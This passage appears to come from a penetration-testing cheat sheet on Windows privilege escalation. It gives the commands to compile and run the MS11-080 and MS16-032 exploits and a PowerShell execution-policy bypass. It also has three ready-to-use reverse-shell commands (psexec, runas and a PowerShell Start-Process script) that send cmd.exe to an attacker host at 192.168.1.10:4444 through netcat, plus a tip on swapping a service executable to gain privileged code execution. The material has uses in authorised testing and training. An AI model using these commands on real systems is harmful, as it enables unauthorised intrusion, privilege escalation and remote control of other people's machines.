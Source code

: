 - Windows MS11-080 - <http://www.exploit-db.com/exploits/18176/>  

      `python pyinstaller.py --onefile ms11-080.py`

      `mx11-080.exe -O XP`

- Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:

      MS16-032 <https://www.exploit-db.com/exploits/39719/>

      `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`

- Powershell Priv Escalation Tools
    <https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc>

- Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.

  - Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

               C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com

  - Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

  - PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

               $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

             Next run this script using powershell.exe:

             `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`

- Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe
